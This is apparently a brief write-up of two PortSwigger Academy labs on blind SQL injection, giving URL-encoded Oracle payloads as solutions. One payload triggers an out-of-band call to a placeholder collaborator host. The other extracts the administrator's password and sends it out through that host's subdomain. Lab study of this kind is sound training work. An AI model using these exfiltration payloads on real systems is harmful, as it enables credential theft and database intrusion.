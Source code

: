 Was unable to perform the following since don't have Burp Collaborator Domain.

Ref: [SQL Injection Cheat Sheet](https://portswigger.net/web-security/sql-injection/cheat-sheet)

# Blind SQL injection with out-of-band interaction

Solution (URL Encoded)
-- Oracle
`TrackingId=x'+UNION+SELECT+EXTRACTVALUE(xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http%3a//BURP-COLLABORATOR-SUBDOMAIN/">+%25remote%3b]>'),'/l')+FROM+dual--`

# Blind SQL injection with out-of-band data exfiltration

Solution (URL Encoded)
-- Oracle
`TrackingId=x'+UNION+SELECT+EXTRACTVALUE(xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http%3a//'||(SELECT+password+FROM+users+WHERE+username%3d'administrator')||'.BURP-COLLABORATOR-SUBDOMAIN/">+%25remote%3b]>'),'/l')+FROM+dual--`

